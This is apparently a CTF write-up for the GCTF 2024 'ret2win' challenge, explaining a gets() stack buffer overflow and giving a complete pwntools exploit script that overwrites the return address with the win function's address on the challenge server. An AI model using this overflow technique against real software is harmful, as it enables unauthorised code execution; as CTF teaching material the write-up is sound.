

repository: encient/encient.github.io · page: ctf/2024/gctf-2024/pwn/ret2win/index.html · generator: mkdocs

## Description
![](ret2win1.png)
///caption
///
This challenge is solved by my teammate, `Jin_707`. This writeup is written by `Jin_707`.

## Solution
![](ret2win2.png)
///caption
///
From the challenge title we can see it is a classic Ret2Win challenge. Source code was given too so we can see that there is a buffer of 64 bytes and the vulnerable function gets. `gets()` function is famous because it accepts user input without upper bound, which often leads to bof. So, this challenge is to overflow the buffers and supply it with the win address that prints out the flag.
Reference: [https://book.hacktricks.xyz/binary-exploitation/stack-overflow/ret2win](https://book.hacktricks.xyz/binary-exploitation/stack-overflow/ret2win)

![](ret2win3.png)
///caption
///
Get `win` address with `objdump -d | grep win`.

![](ret2win4.png)
///caption
///
Script with `pwntools`:
```python {frame="none"}
from pwn import *

# Set up the context for the binary
binary_path = './chall'
context.binary = binary_path

# Connect to the remote server
p = remote('3.1.25.253', 9991)

# Find the address of the win function
win_addr = p64(0x00000000004011f6)  # Use p64 for 64-bit address

# Create the payload
# The buffer size is 64 bytes, and the saved RBP is 8 bytes. Hence, we need 72 bytes before we overwrite the return address.
payload = b'A' * 72 + win_addr  # 64 bytes buffer + 8 bytes for saved RBP

# Send the payload
p.sendline(payload)

# Interact with the remote shell
p.interactive()
```
